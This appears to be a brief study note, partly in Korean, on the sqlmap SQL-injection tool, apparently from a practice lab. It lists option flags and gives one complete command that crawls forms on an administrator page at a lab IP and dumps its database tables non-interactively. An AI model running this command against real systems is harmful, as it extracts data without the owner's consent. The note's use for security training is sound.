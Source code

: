 sqlmap
#
`useful command`
```
--batch             사용자 입력을 요청하지 않음, 기본 동작 사용
--dump              DBMS 데이터베이스 테이블 항목 덤프
-a, --all           Retrieve everything
--forms             페이지의 <form> 요소에서 매개변수를 자동으로 선택
```
#
```
sqlmap -u http://10.10.96.80/administrator.php --forms --dump --batch  
```
![image](https://user-images.githubusercontent.com/61821641/149613597-4c6b2fa4-5ab7-435e-bb7a-29fc4cd9a3a9.png)
![image](https://user-images.githubusercontent.com/61821641/149613318-76b35cb6-4232-439d-80d4-bb567681e889.png)
